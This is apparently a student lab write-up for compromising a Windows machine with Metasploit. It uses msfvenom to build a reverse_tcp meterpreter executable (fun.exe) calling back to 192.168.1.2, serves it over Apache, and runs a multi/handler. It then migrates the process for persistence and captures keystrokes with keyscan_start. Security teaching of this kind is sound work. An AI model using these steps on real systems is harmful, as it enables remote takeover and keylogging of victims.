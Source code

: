 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig

![image](https://github.com/indrajasukumar/Compromising-windows-using-Metasploit/assets/145115195/b0099d79-cfb3-4f41-ae00-0e80e4aab311)

malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe.

![image](https://github.com/indrajasukumar/Compromising-windows-using-Metasploit/assets/145115195/3639f9c7-5c38-4538-8a21-4b3c4809d088)

the fun.exe into the apache /var/www/html folder

![image](https://github.com/indrajasukumar/Compromising-windows-using-Metasploit/assets/145115195/3db2b6b8-620f-404e-a382-c43dc8205dcc)

Start apache server sudo systemctl apache2 start

![image](https://github.com/indrajasukumar/Compromising-windows-using-Metasploit/assets/145115195/ff20493a-853b-49d2-a0cf-bd7b1c75dc17)

Check the status of apache2 Invoke msfconsole: msfconsole

![image](https://github.com/indrajasukumar/Compromising-windows-using-Metasploit/assets/145115195/2eb89aae-fb97-4804-bd0d-df86dfe7d940)

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![image](https://github.com/indrajasukumar/Compromising-windows-using-Metasploit/assets/145115195/f25d8c2f-9d91-45a1-b712-650e22656f4a)

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit css

![image](https://github.com/indrajasukumar/Compromising-windows-using-Metasploit/assets/145115195/3e7bfc9f-7989-4f4b-92e1-c34830dc5b49)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![image](https://github.com/indrajasukumar/Compromising-windows-using-Metasploit/assets/145115195/ac056214-0d39-42bd-ad90-74e12fd05789)

Bypass any warning boxes, double-click the file, and allow it to run.

![image](https://github.com/indrajasukumar/Compromising-windows-using-Metasploit/assets/145115195/100f30a8-7268-4948-8777-9bbc857f7226)

On kali give the command exploit

![image](https://github.com/indrajasukumar/Compromising-windows-using-Metasploit/assets/145115195/0336518e-549c-4f4d-a1ae-d53c22439d0b)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![image](https://github.com/indrajasukumar/Compromising-windows-using-Metasploit/assets/145115195/df0820f0-0315-4e32-ad65-f0fc1894cca1)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command: migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted.

![image](https://github.com/indrajasukumar/Compromising-windows-using-Metasploit/assets/145115195/743ecf52-e08c-40ef-adbe-6c4d39ef9d57)

Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![image](https://github.com/indrajasukumar/Compromising-windows-using-Metasploit/assets/145115195/8c2f324b-f493-493f-96e4-71ce3afdaf3d)

the keystrokes captured so far.

![image](https://github.com/indrajasukumar/Compromising-windows-using-Metasploit/assets/145115195/2f413ad1-dca1-42c8-b561-9ee977c32c74)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
